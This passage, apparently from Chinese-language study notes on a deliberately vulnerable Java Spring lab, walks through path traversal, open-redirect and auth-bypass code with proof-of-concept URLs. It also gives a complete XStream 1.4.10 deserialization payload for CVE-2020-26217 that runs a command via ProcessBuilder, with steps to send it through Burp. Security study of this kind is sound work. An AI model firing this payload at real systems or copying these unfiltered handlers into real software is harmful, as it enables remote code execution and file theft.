> ```

POC:

`http://localhost:8079/css/..;/uri/exclued/vuln`

# PathTraversal

```java
public String getImage(String filepath) throws IOException {
    return getImgBase64(filepath);
}
private String getImgBase64(String imgFile) throws IOException {

    logger.info("Working directory: " + System.getProperty("user.dir"));
    logger.info("File path: " + imgFile);

    File f = new File(imgFile);
    if (f.exists() && !f.isDirectory()) {
        byte[] data = Files.readAllBytes(Paths.get(imgFile));
        return new String(Base64.encodeBase64(data));
    } else {
        return "File doesn't exist or is not a file.";
    }
}
```

这个没有过滤。

POC:`http://localhost:8079/path_traversal/vul?filepath=../TEST/src/test.java`

# URLRedirect

```java
@GetMapping("/redirect")
public String redirect(@RequestParam("url") String url) {
    return "redirect:" + url;
}

@RequestMapping("/setHeader")
@ResponseBody
public static void setHeader(HttpServletRequest request, HttpServletResponse response) {
    String url = request.getParameter("url");
    response.setStatus(HttpServletResponse.SC_MOVED_PERMANENTLY); // 301 redirect
    response.setHeader("Location", url);
}

@RequestMapping("/sendRedirect")
@ResponseBody
public static void sendRedirect(HttpServletRequest request, HttpServletResponse response) throws IOException {
    String url = request.getParameter("url");
    response.sendRedirect(url); // 302 redirect
}

@RequestMapping("/forward")
@ResponseBody
public static void forward(HttpServletRequest request, HttpServletResponse response) {
    String url = request.getParameter("url");
    RequestDispatcher rd = request.getRequestDispatcher(url);
    try {
        rd.forward(request, response);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

前三个都是随便跳转，包括恶意网站。

[forward（转发）与redirect（重定向）的区别](https://blog.csdn.net/zhc5885306/article/details/78763905)

> **转发过程：**客户浏览器发送http请求--->web服务器接受此请求--->调用内部的一个方法在容器内部完成请求处理和转发动作--->将目标资源 发送给客户；在这里，转发的路径必须是同一个web容器下的url，其不能转向到其他的web路径上去，中间传递的是自己的容器内的request。在客 户浏览器路径栏显示的仍然是其第一次访问的路径，也就是说客户是感觉不到服务器做了转发的。转发行为是浏览器只做了一次访问请求。 

# XStreamRce

这里xstream的版本是1.4.10。

```java
public String parseXml(HttpServletRequest request) throws Exception {
    String xml = WebUtils.getRequestBody(request);
    XStream xstream = new XStream(new DomDriver());
    xstream.fromXML(xml);
    return "xstream";
}
```

**CVE-2020-26217：**

**POC：**

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>calc</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

用burp抓包，改成post，改一下MIME类型，然后贴上POC，计算器就被打开了。


